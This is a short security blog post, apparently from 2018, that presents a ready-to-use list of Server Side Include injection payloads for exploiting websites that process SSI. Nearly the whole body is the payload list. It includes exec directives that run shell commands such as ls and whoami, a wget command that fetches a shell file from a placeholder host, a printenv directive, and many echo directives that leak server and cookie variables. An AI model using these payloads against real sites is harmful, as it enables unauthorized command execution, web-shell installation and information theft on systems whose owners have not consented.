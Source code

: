 ```yaml
---
title: List of SSI payloads
author: ヤング marduc
type: post
date: 2018-03-24T19:18:53+00:00
url: /2018/03/24/list-of-ssi-payloads/
featured_image: /wp-content/uploads/2018/03/cover-1.jpg
yuzo_related_post_metabox:
  - 'a:3:{s:17:"yuzo_include_post";s:0:"";s:17:"yuzo_exclude_post";s:0:"";s:21:"yuzo_disabled_related";N;}'
mashsb_timestamp:
  - 1587860094
mashsb_jsonshares:
  - '{"total":0,"error":{"facebook_error":"{"error":{"message":"(#12) share field is deprecated for versions v2.9 and higher","type":"OAuthException","code":12,"fbtrace_id":"AZEFtFr_Anmzx1G4N1MqSU-"}}"},"facebook_total":0}'
categories:
  - Security
  - Tuts
tags:
  - hack
  - tutorial

---
```

Recently I faced a situation that a website allowed the use of Server Side Includes. This was something new for me because I didn&#8217;t know many things about it and what payloads I could use. Luckily <!--more-->every time someone in the team already knows about it and below is a list of payloads that can be used to exploit this feature.

<pre>&lt;pre&gt;&lt;!--#exec cmd="ls" --&gt;&lt;/pre&gt;
&lt;pre&gt;&lt;!--#echo var="DATE_LOCAL" --&gt; &lt;/pre&gt;
&lt;pre&gt;&lt;!--#exec cmd="whoami"--&gt;&lt;/pre&gt;
&lt;pre&gt;&lt;!--#exec cmd="dir" --&gt;&lt;/pre&gt;
&lt;!--#exec cmd="ls" --&gt;
&lt;!--#exec cmd="wget http://website.com/dir/shell.txt" --&gt;
&lt;!--#exec cmd="/bin/ls /" --&gt;
&lt;!--#exec cmd="dir" --&gt;
&lt;!--#exec cmd="cd C:\WINDOWS\System32"&gt;
&lt;!--#config errmsg="File not found, informs users and password"--&gt;
&lt;!--#echo var="DOCUMENT_NAME" --&gt;
&lt;!--#echo var="DOCUMENT_URI" --&gt;
&lt;!--#config timefmt="A %B %d %Y %r"--&gt;
&lt;!--#fsize file="ssi.shtml" --&gt;
&lt;!--#include file=?UUUUUUUU...UU?--&gt;
&lt;!--#echo var="DATE_LOCAL" --&gt; 
&lt;!--#exec cmd="whoami"--&gt; 
&lt;!--#printenv --&gt;
&lt;!--#flastmod virtual="echo.html" --&gt;
&lt;!--#echo var="auth_type" --&gt;
&lt;!--#echo var="http_referer" --&gt;
&lt;!--#echo var="content_length" --&gt;
&lt;!--#echo var="content_type" --&gt;
&lt;!--#echo var="http_accept_encoding" --&gt;
&lt;!--#echo var="forwarded" --&gt;
&lt;!--#echo var="document_uri" --&gt;
&lt;!--#echo var="date_gmt" --&gt;
&lt;!--#echo var="date_local" --&gt;
&lt;!--#echo var="document_name" --&gt;
&lt;!--#echo var="document_root" --&gt;
&lt;!--#echo var="from" --&gt;
&lt;!--#echo var="gateway_interface" --&gt;
&lt;!--#echo var="http_accept" --&gt;
&lt;!--#echo var="http_accept_charset" --&gt;
&lt;!--#echo var="http_accept_language" --&gt;
&lt;!--#echo var="http_connection" --&gt;
&lt;!--#echo var="http_cookie" --&gt;
&lt;!--#echo var="http_form" --&gt;
&lt;!--#echo var="http_host" --&gt;
&lt;!--#echo var="user_name" --&gt;
&lt;!--#echo var="unique_id" --&gt;
&lt;!--#echo var="tz" --&gt;
&lt;!--#echo var="total_hits" --&gt;
&lt;!--#echo var="server_software" --&gt;
&lt;!--#echo var="server_protocol" --&gt;
&lt;!--#echo var="server_port" --&gt;
&lt;!--#echo var="server_name --&gt;
&lt;!--#echo var="server_addr" --&gt;
&lt;!--#echo var="server_admin" --&gt;
&lt;!--#echo var="script_url" --&gt;
&lt;!--#echo var="script_uri" --&gt;
&lt;!--#echo var="script_name" --&gt;
&lt;!--#echo var="script_filename" --&gt;
&lt;!--#echo var="netsite_root" --&gt;
&lt;!--#echo var="site_htmlroot" --&gt;
&lt;!--#echo var="path_translated" --&gt;
&lt;!--#echo var="path_info_translated" --&gt;
&lt;!--#echo var="request_uri" --&gt;
&lt;!--#echo var="request_method" --&gt;	
&lt;!--#echo var="remote_user" --&gt;
&lt;!--#echo var="remote_addr" --&gt;
&lt;!--#echo var="http_client_ip" --&gt;
&lt;!--#echo var="remote_port" --&gt;
&lt;!--#echo var="remote_ident" --&gt;
&lt;!--#echo var="remote_host" --&gt;
&lt;!--#echo var="query_string_unescaped" --&gt;
&lt;!--#echo var="query_string" --&gt;
&lt;!--#echo var="path_translated" --&gt;
&lt;!--#echo var="path_info" --&gt;
&lt;!--#echo var="path" --&gt;
&lt;!--#echo var="page_count" --&gt;
&lt;!--#echo var="last_modified" --&gt;
&lt;!--#echo var="http_user_agent" --&gt;
&lt;!--#echo var="http_ua_os" --&gt;
&lt;!--#echo var="http_ua_cpu" --&gt;
</pre>

You will notice in some cases that it is not possible to run system commands, but it is possible to echo things. One of the payloads that I liked the most was printenv, because it gives a lot of useful information about the server, permissions, local IPs etc.

If you have any more SSI payloads that you would like me to include, feel free to share.

Links: <a href="https://www.owasp.org/index.php/Server-Side_Includes_(SSI)_Injection" target="_blank" rel="noopener">OWASP</a>